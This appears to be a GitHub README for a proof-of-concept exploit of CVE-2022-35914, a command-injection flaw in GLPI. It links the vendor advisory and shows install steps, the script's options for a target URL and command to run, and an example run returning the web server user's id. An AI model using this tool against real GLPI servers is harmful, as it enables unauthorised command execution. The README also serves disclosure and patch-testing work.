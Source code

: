 # CVE-2022-35914 PoC

## References

- https://github.com/glpi-project/glpi/security/advisories/GHSA-c5gx-789q-5pcr

## Usage

```bash
pip install -r requirements
```

```bash
./CVE-2022-35914.py -h
usage: CVE-2022-35914.py [-h] -u URL -c CMD [-f HOOK] [--check] [--user-agent USER_AGENT]

CVE-2022-35914 - GLPI - Command injection using a third-party library script

options:
  -h, --help            show this help message and exit
  -u URL                URL to test
  -c CMD                Command to launch
  -f HOOK               PHP hook function (default: exec)
  --check               Just check, no command execution.
  --user-agent USER_AGENT
                        Custom User-Agent
```

Example:

```bash
❯ ./CVE-2022-35914.py -u http://glpi
[+] Command output (Return code: 0):
 uid=48(apache) gid=48(apache) groups=48(apache)
```